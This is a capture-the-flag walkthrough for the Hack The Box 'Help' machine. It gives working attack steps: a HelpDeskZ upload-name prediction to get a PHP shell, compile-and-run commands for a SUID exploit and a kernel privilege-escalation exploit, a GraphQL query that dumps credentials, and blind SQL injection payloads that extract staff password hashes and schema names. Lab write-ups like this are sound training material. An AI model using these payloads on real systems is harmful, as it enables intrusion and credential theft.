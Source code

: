 ## Help

https://app.hackthebox.com/machines/170

### User Flag

Open ports: 22, 80 and 3000.

Directory /support found, Help Desk Software by HelpDeskZ.

We can enumerate the version by checking README.md based on [this github](https://github.com/ViktorNova/HelpDeskZ/tree/master).

Searching for HelpDeskZ vulnerabilities, we find [this one](https://www.exploit-db.com/exploits/40300).

When we upload files, the system renames it with a weak rename function based on current time.  

This way, we can find the uploaded file name and get a shell.

Looking at github, we discover that uploaded images probably ends in /uploads/tickets.

```
python2 find.py http://help.htb/support/uploads/tickets/ shell.php
```

<br>

### Study of Vulnerability

On [submit_ticket_controller.php](https://github.com/ViktorNova/HelpDeskZ/blob/master/controllers/submit_ticket_controller.php), on line 141 we find this code:

```php
$filename = md5($_FILES['attachment']['name'].time()).".".$ext;
```

This generates a name to the uploaded file based on: **original filename + current timestamp + extension** and hash all in md5.

NOTE: There is a chance that the timestamp of the server differs from our timestamp. To get the correct one, we can extract this from the response headers.

You can find the vulnerable code snippet on vulnCodeUpload.php.

<br>

### Privilege Escalation

There are two paths.

SUID: /usr/lib/s-nail/s-nail-privsep  
Exploit: https://www.exploit-db.com/exploits/47172

If bash interpreter error occurs:
```bash
sed -i -e 's/\r$//' 47172
./47172
```

OR

Kernel is outdated: Linux 4.4.0-116-generic.  
Exploit: https://www.exploit-db.com/exploits/44298

```bash
gcc exploit.c -o exploit
./exploit
```

<br>

### Blind Injection

On port 3000, nmap tell us this is Node.js Express framework and we receive this message:
```
{"message":"Hi Shiv, To get access please find the credentials with given query"}
```

Searching for Express Language Query Node lead us access **/graphql**.

We can perform query introspection:
```
http://help.htb:3000/graphql/?query={__schema{types{name,fields{name,%20args{name,description,type{name,%20kind,%20ofType{name,%20kind}}}}}}}
```

Here we discover that type "User" has fields "username" and "password.

We create a query to dump that and receive credentials: `helpme@helpme.com:5d3c93182bb20f07b994a7f617e99cff`
```
graphql?query={+user+{username,+password+}+}
```

Crack the hash to get: **godhelpmeplz**

<br>

With this credentials, we can explore the other vulnerability on Help Desk: (Authenticated) SQL Injection / Unauthorized File Download.

First you need to get a valid ticket attachment URL.

This returns 200 OK with the attachment content.
```
http://help.htb/suport/v=view_tickets&action=ticket&param[]=2&param[]=attachment&param[]=1&param[]=9+AND+1%3d1
```

This returns 200, but the response is different.
```
http://help.htb/suport/v=view_tickets&action=ticket&param[]=2&param[]=attachment&param[]=1&param[]=9+AND+1%3d2
```

The vulnerable query is at line 94 in **view_tickets_controller.php**.
```php
$attachment = $db->fetchRow("SELECT *, COUNT(id) AS total FROM ".TABLE_PREFIX."attachments WHERE id=".$db->real_escape_string($params[2])." AND ticket_id=".$params[0]." AND msg_id=".$params[3]);
```

To discover database name:
```
and substring(database(),1,1) = 's'
```

To extract password, we can use both payloads:
```
# IppSec used limit 0,1, but without it it also works
and substr((select password from staff limit 0,1),1,1) = 'a'

and substr((select password from staff),1,1) = 'a'
```

Our injectionScript.py try to find 40 characters since password is hashed with sha1 as the source code indicates.

<br>

To go further, we can extract the number of tables from the database and their names. [This article](https://lakshmi993.medium.com/blind-sql-injection-mysql-data-base-d2f35afbc451) helps a lot.
```
# Get number of tables
and (SELECT COUNT(*) AS table_count FROM information_schema.tables WHERE table_schema = 'support') = 19

# This works to find 'articles', the first table
and substring((select table_name from information_schema.tables where table_schema='support' limit 0,1),1,1) = 'a'

# And this works to find 'staff' the fifteen table
and substring((select table_name from information_schema.tables where table_schema='support' limit 15,1),1,1) = 's'
```

And extract the same with columns.
```
# Discover number of columns from 'staff'
and (SELECT COUNT(*) AS column_count FROM information_schema.columns WHERE table_schema = 'support' AND table_name ='staff') = 1

# Finding columns from 'staff'
and substring((select column_name from information_schema.columns where table_name='staff' limit 0,1),1,1) = 's'
```
